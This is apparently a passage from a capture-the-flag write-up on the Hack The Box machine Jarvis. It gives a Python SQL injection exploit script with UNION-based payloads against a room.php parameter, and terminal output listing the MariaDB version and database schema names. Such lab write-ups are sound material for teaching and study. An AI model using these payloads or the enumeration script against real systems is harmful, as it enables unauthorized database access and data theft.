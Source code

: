 ```python
            return False, payloadResult

        return True, payloadResult

if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    payload = "7 UNION ALL SELECT NULL,@@version,NULL,NULL,NULL,NULL,NULL-- -"
    isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
    if not isExploitSuccess:
        print('[-] Exploit failed... Abort!!')
        exit()

    print(f'[+] Payload result: {payloadResult}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|19:50:14(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,@@version,NULL,NULL,NULL,NULL,NULL-- -
[+] Payload result: 10.1.37-MariaDB-0+deb9u1
```

**Enumerate database names:**
```python
if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    for offsetPosition in range(100):
        payload = f"7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET {offsetPosition}-- -"
        isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
        if not isExploitSuccess:
            print('[-] Exploit failed... Abort!!')
            break

        print(f'[+] Payload result: {payloadResult}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:00:59(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 0-- -
[+] Payload result: hotel
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 1-- -
[+] Payload result: information_schema
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 2-- -
[+] Payload result: mysql
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 3-- -
[+] Payload result: performance_schema
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 4-- -
[-] No result :(
[-] Exploit failed... Abort!!
```
